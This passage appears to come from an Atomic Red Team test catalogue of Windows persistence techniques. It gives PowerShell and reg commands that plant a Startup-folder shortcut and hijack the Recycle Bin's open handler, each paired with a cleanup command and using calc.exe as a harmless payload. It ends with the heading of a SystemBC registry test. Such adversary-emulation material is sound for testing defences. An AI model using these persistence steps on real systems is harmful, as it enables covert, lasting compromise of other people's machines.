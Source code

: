 #### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$Target = "C:\Windows\System32\calc.exe"
$ShortcutLocation = "$home\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\calc_exe.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Create = $WScriptShell.CreateShortcut($ShortcutLocation)
$Create.TargetPath = $Target
$Create.Save()
```

#### Cleanup Commands:

```powershell
Remove-Item "$home\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\calc_exe.lnk" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #8 - Add persistance via Recycle bin

Add a persistance via Recycle bin [vxunderground](https://github.com/vxunderground/VXUG-Papers/blob/main/The%20Persistence%20Series/Persistence%20via%20Recycle%20Bin/Persistence_via_Recycle_Bin.pdf)
User have to clic on the recycle bin to lauch the payload (here calc)

**Supported Platforms:** Windows

**auto_generated_guid:** bda6a3d6-7aa7-4e89-908b-306772e9662f

#### Attack Commands: Run with `command_prompt`!

```cmd
reg ADD "HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command" /ve /d "calc.exe" /f
```

#### Cleanup Commands:

```cmd
reg DELETE "HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open" /f
```

<br/>
<br/>

## Atomic Test #9 - SystemBC Malware-as-a-Service Registry

This Atomic will create a registry key called socks5_powershell for persistance access
https://medium.com/walmartglobaltech/systembc-powershell-version-68c9aad0f85c

**Supported Platforms:** Windows

**auto_generated_guid:** 9dc7767b-30c1-4cc4-b999-50cab5e27891
